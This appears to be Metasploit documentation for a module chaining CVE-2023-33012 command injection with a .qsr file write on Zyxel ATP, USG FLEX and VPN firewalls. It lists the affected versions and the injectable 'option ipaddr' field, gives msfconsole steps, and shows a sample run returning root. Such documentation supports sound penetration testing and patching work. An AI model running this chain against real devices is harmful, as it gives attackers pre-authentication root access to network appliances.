 ## Vulnerable Application
This module exploits multiple vulnerabilities in order to obtain pre-auth command injection the multiple Zyxel device models.
The exploit chain uses CVE-2023-33012 which is a command injection vulnerability which can be exploited when uploading a
new configuration to /ztp/cgi-bin/parse_config.py by appending a command to the `option ipaddr ` field.

The command injection is length limited to 0x14 bytes and is why this exploit chains a .qsr file write vulnerability as
well in order to write the payload to a file which has no length limit and then call the payload with the command
injection.

Two caveats of this exploit chain were described by Jacob Baines in the following
[blog post](https://vulncheck.com/blog/zyxel-cve-2023-33012#you-get-one-shot).
1. In order for the target to be vulnerable Cloud Management Mode (SD-WAN mode) must be enable (it is not by default).
2. The target can only be exploited once due to the order of operations in which the exploit functions.

| Product                           | Affected Versions               |
|-----------------------------------|----------------------------------|
| ATP                               | V5.10 through V5.36 Patch 2      |
| USG FLEX                          | V5.00 through V5.36 Patch 2      |
| USG FLEX 50(W) / USG20(W)-VPN     | V5.10 through V5.36 Patch 2      |
| VPN                               | V5.00 through V5.36 Patch 2      |

### Setup

To test this module you will need to acquire a hardware device running one of the vulnerable firmware versions listed above.

## Options

### WRITEABLE_DIR

This indicates the location where you would like the payload and exploit stored, as well
as serving as a location to store the various files and directories created by the exploit itself.
The default value is `/tmp`

## Verification Steps

1. Start msfconsole
1. Do: `use zyxel_parse_config_rce`
1. Set the `RHOST` and `LHOST`
1. Run the module
1. Receive a Meterpreter session as the `root` user.

## Scenarios
### Mock USG Flex environment
```
msf6 exploit(linux/http/zyxel_parse_config_rce) > set payload cmd/unix/generic
payload => cmd/unix/generic
msf6 exploit(linux/http/zyxel_parse_config_rce) > set cmd id
cmd => id
msf6 exploit(linux/http/zyxel_parse_config_rce) > set AllowNoCleanup true
AllowNoCleanup => true
msf6 exploit(linux/http/zyxel_parse_config_rce) > run

[*] Attempting to upload the payload via QSR file write...
[+] File write was successful.
[+] Command output:
uid=0(root) gid=0(root) groups=0(root)

[!] This exploit may require manual cleanup of '/tmp/N.qsr' on the target
[*] Exploit completed, but no session was created.
```
